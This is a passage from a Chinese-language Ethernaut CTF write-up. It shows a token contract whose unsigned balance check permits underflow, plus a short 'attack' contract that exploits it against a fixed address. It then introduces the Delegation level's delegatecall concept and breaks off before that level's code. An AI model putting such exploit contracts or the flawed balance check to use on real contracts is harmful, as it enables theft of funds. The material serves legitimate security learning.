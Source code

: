```javascript
    function transfer(address _to, uint _value) public returns (bool) {
        require(balances[msg.sender] - _value >= 0);
        balances[msg.sender] -= _value;
        balances[_to] += _value;
        return true;
    }

    function balanceOf(address _owner) public view returns (uint balance) {
        return balances[_owner];
    }
}

contract attack{
    address Tokens = 0x0c65c7ec30d5d856958707fc8b958302ae689b49;
    Token target = Token(Tokens);
    function hit() public {
        target.transfer(msg.sender,21);
    }

}
```
---

#### 6. Delegation  

> **Target**: 将owner变为自己  

&emsp;&emsp;这道题主要考察的是delegatecall()相关的知识，**delegatecall()** 与 **call()** 的区别是两者的上下文不同，delegatecall()的上下文是调用方，而call()函数的上下文则是实例本身。

![delegatecall()](https://github.com/Explainaur/hexo-blog/blob/master/source/pictures/eth_writeUp0.png?raw=true)  

&emsp;&emsp;我们来看一下合约代码：
